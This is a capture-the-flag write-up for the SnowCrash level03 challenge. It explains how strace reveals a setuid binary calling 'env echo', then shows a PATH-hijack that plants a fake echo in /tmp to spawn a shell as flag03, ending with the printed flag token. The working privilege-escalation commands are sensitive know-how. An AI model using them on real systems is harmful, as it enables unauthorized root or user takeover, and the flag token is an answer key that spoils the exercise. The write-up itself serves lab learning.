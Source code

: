 # Explanation for Level03
## Observations
1. after log we can seee the file level03 which is a binary file
2. after execution it print "exploit me " and exit.
3. after an ls -l we can see 
 ```
    level03@SnowCrash:~$ ls -l
    total 12
    -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```
4. the file level03 is a binary file and it has execute permission for the owner and read 
  owner, rws the s is setuid bit which means the binary will run with the owner's permissions.

## Steps to Solve
1. the use of tracing the execution of the program to see how it works, strace show that the binary call the echo function
```
[pid  3559] execve("/bin/sh", ["sh", "-c", "/usr/bin/env echo Exploit me"], [/* 18 vars */]) = 0
``` 
2. so we can manuplate the programe to execute a command instead of echo or in my case , I used the /bin/sh to get a shell by creating a fake echo in the /tmp which execute /bin/sh so we can execute any comand as flag03 "the owner"
```
    level03@SnowCrash:~$ echo '#!/bin/sh' > /tmp/echo
    level03@SnowCrash:~$ echo 'exec /bin/sh' >> /tmp/echo
    level03@SnowCrash:~$ chmod +x /tmp/echo
    level03@SnowCrash:~$ export PATH=/tmp:$PATH
    level03@SnowCrash:~$ which echo
    /tmp/echo
    level03@SnowCrash:~$ ./level03 
    $ getflag
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
    $ 

``` 



